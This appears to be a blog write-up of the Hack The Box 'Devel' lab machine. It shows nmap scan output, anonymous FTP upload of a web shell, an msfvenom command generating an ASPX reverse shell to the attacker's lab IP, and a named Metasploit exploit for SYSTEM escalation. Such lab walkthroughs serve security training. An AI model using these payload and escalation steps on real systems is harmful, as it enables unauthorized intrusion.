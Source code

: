Title: HTB Devel box writeup
Tags: oscp, htb, asp, ftp
Summary: Another straightforward windows box
Date: 2020-09-28 15:00
Status: published

# Enumeration
As usual full nmap sS scan:
```text
    Nmap 7.80 scan initiated Mon Sep 28 10:10:15 2020 as: nmap -sS -p- -oA enum/nmap-ss-all 10.10.10.5
    Nmap scan report for devel.htb (10.10.10.5)
    Host is up (0.055s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE
    21/tcp open  ftp
    80/tcp open  http
    Nmap done at Mon Sep 28 10:12:24 2020 -- 1 IP address (1 host up) scanned in 128.64 seconds
```
Following by the scripted scan:
```text
    Nmap 7.80 scan initiated Mon Sep 28 10:19:06 2020 as: nmap -sC -A -T4 -p21,80 -oA enum/nmap-sCAT4-open 10.10.10.5
    Nmap scan report for devel.htb (10.10.10.5)
    Host is up (0.053s latency).
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  02:06AM       <DIR>          aspnet_client
    | 03-17-17  05:37PM                  689 iisstart.htm
    |_03-17-17  05:37PM               184946 welcome.png
    | ftp-syst: 
    |_  SYST: Windows_NT
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose|phone|specialized
    Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
    OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
    Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    TRACEROUTE (using port 21/tcp)
    HOP RTT      ADDRESS
    1   53.90 ms 10.10.14.1
    2   53.99 ms devel.htb (10.10.10.5)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Mon Sep 28 10:19:19 2020 -- 1 IP address (1 host up) scanned in 13.79 seconds
```
And that's all that necessary to get foothold.

# Exploitation
FTP allows anonymous access and to upload arbitrary files in there:

![ftp uploading](/cstatic/htb-devel/upload-shell.png)

Moreover, FTP Root could be accessed from the web server, so to acquire shell is as easy
as upload crafted aspx page and navigate to it. Generated it using
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=53 -f aspx -o sh.asp`:

![unpriv iis web user shell](/cstatic/htb-devel/unpriv-shell.png)

# Privilege escalation
PE was done with MSF and exploit suggester. `windows/local/ms15_051_client_copy_image`
worked flawlessly providing us with SYSTEM shell:

![root shell](/cstatic/htb-devel/root-shell.png)

# Additional
Found some writeups with PE w/o MSF, worth to read:

 - https://0xdf.gitlab.io/2019/03/05/htb-devel.html#privesc-web--system
 - https://esseum.com/hack-the-box-devel-writeup/
 - https://agent-tiro.com/htb/devel
 - https://cyruslab.net/2020/04/30/hacktheboxdevel/
 - https://nullarmor.github.io/posts/devel
